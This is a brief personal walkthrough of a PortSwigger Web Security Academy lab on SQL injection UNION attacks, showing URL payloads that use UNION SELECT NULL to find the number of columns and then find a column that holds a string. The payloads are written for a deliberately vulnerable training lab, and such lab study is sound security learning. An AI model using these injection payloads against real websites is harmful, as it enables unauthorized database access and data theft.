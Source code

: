https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

It not retrieves error until there's three columns `/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--` now we know we have 3 columns

Enumerate the numbers of columns
and use the that query
`/filter?category='+UNION+SELECT+NULL,NULL,NULL--`

and then use the string provided by the lab
and use the that query
`/filter?category='+UNION+SELECT+NULL,'string',NULL--`
if it keeps giving you 500 error try to change the sring from a different orded